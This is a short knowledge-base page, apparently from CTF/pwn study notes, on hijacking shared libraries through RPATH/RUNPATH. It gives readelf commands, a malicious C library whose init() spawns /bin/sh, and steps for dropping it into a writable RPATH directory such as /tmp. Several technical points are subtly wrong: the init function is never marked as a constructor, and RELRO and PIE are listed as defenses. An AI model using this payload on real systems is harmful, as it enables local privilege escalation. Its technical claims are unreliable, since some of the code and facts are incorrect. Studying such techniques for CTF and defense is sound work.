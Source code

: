 ```yaml
---
title: Library Hijacking via RPATH/RUNPATH
parent: Protection Bypass
grand_parent: pwn
great_grand_parent: Knowledge Base
nav_order: 5
---
```


# Library Hijacking via RPATH/RUNPATH

## What are RPATH and RUNPATH?

- Hardcoded search paths for shared libraries (dynamic linker uses them).
- Set during compilation with flags like:
\`\`\`
-Wl,-rpath,/some/dir
\`\`\`

---

## Why is it Dangerous?

- If an attacker can place a malicious library in a directory listed in RPATH or RUNPATH, it will be loaded **before** system libraries.
- Allows arbitrary code execution during program startup.

---

## How to Exploit?

1. **Find the RPATH or RUNPATH**:
   - Use \`readelf\`:
\`\`\`
readelf -d <binary> | grep RPATH
readelf -d <binary> | grep RUNPATH
\`\`\`

2. **Create a Malicious Library**:
   - Write your payload in C:
\`\`\`c
#include <stdio.h>
void init() {
    system("/bin/sh");
}
\`\`\`

- Compile:
\`\`\`
gcc -shared -fPIC -o libmylib.so mylib.c
\`\`\`

3. **Place Library in RPATH Directory**:
   - If RPATH includes \`/tmp\`, put \`libmylib.so\` there.

4. **Run the Binary**:
   - It will load your malicious library automatically.

---

## Example Attack

1. Binary has RPATH \`/tmp\`.
2. You create \`libc.so.6\` with a malicious \`init\` function.
3. When the binary runs, it uses your fake \`libc.so.6\`.

---

## Defense

- Avoid setting RPATH or RUNPATH.
- Use only secure and absolute paths.
- Use full RELRO, PIE, and enable hardened linking flags.

---

## Summary

- **RPATH**/**RUNPATH** vulnerabilities can lead to preloading attacker-controlled shared libraries.
- Easy route for remote/local code execution if writable directory is included.
- Always check for these fields with \`readelf\` during binary analysis.
